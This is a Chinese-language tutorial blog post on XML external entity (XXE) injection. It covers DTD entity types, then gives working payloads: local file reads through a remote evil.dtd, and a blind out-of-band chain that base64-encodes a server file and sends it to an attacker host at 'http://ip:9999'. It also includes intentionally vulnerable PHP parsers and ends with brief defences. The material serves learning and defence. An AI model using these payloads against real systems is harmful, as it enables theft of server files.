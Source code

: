 ```yaml
---
layout:     post
title:      XXE
date:       2020-05-12
author:     lceCr4m
header-img: img/xxe.jpg
catalog: true
tags:
    - XXE
---
```

> 本文是关于学习xml外部实体注入（xxe）的相关总结

## 0x00 XXE介绍
首先是xml注入：  
![xxe](https://github.com/lceCre4m/lceCre4m.github.io/blob/master/img/xml.png?raw=true)  
然后是xxe注入：XXE(XML External Entity Injection) 全称为 XML 外部实体注入。其中实体分类有：内部实体，外部实体，参数实体和通用实体。接下来会介绍到。xxe主要通过注入实体来实现获取服务器（有xxe漏洞，能够接收xml内容）的敏感信息。
## 0x01 基础知识
### xml
XML用于标记电子文件使其具有结构性的标记语言，可以用来标记数据、定义数据类型，是一种允许用户对自己的标记语言进行定义的源语言。结构包括：XML声明、DTD文档类型定义、文档元素。  
### DTD
XML文档有自己的一个格式规范，这个格式规范是由 DTD（document type definition）控制的。  
示例：
```
<?xml version="1.0"?>   //这一行是 XML 文档定义
<!DOCTYPE message [     //定义了元素
<!ELEMENT message (receiver ,sender)>
<!ELEMENT receiver (#PCDATA)>   //子元素
<!ELEMENT sender (#PCDATA)>     //子元素
```
### 实体（内，外，通，参）
除了在DTD中定义元素，还可以定义实体，实体分类有四种，前面讲过了。  

内外实体示例：

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo1 [
<!ELEMENT foo1 ANY >
<!ENTITY xxe "test" >]>     //内部实体
<!DOCTYPE foo2 [
<!ELEMENT foo2 ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]>       //外部实体
```
通用实体：用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用。  

参数实体：用 % 实体名(这里面空格不能少) 在DTD 中定义，并且只能在DTD中使用 %实体名; 引用。可以外部引用。只有在DTD文件中，参数实体的声明才能引用其他实体。
通参实体示例：

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE updateProfile [<!ENTITY file SYSTEM "file:///c:/windows/win.ini"> ]> 
<updateProfile>  
    <firstname>Joe</firstname>  
    <lastname>&file;</lastname>     //通用实体
    ... 
</updateProfile>

<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;           //参数实体
``` 
## 0x02 xxe利用
### 有回显利用
示例：  
xml.php
```
<?php

    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```
payload
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>
```
evil.dtd

```
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```
简单说明 ~~（大白话）~~ ：% goodies读取test.txt内容（其中CDATA使得特殊符号的可以正常输出），% dtd引用了evil.dtd，在evil.dtd中，使用了% start，% goodies，% end输出了test.txt的内容。
### 无回显利用（类似于ssrf）
示例：  
xml.php
```
<?php
libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
?>
```
test.dtd
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!ENTITY % int "<!ENTITY % send SYSTEM 'http://ip:9999?p=%file;'>">
```
payload：
```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>
```
简单说明 ~~（其实很好理解，我直接fork一下）~~ ：我们从 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 &#37;)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。
### 其他利用
http内网主机探测，http内网端口扫描，内网钓鱼，利用 XXE 进行DOS攻击等。
### 实例利用
#### 微信支付xxe
微信支付提供了一个 api 接口，供商家接收异步支付结果，微信支付所用的java sdk在处理结果时可能触发一个XXE漏洞，攻击者可以向这个接口发送构造恶意payloads,获取商家服务器上的任何信息。  
此次的sdk 提供了一个WXPayUtil工具类，该类中实现了xmltoMap和maptoXml这两个方法，而这次的微信支付的xxe漏洞爆发点就在xmltoMap方法中。
#### JSON content-type XXE
很多web和移动应用都基于客户端-服务器交互模式的web通信服务，最常见的数据格式都是XML和JSON。尽管web服务可能在编程时只使用其中一种格式，但服务器却可以接受开发人员并没有预料到的其他数据格式，这就有可能会导致JSON节点受到XXE（XML外部实体）攻击。  
简单说就是：原本以为只处理json格式数据，没想到收到了xml数据，并且可以处理xml数据，导致了xxe。
## 0x03 xxe防御
### 使用语言中推荐的禁用外部实体的方法
PHP：
```
libxml_disable_entity_loader(true);
```
### 黑名单过滤敏感字符

```
<!ENTITY SYSTEM、PUBLIC 等等
```









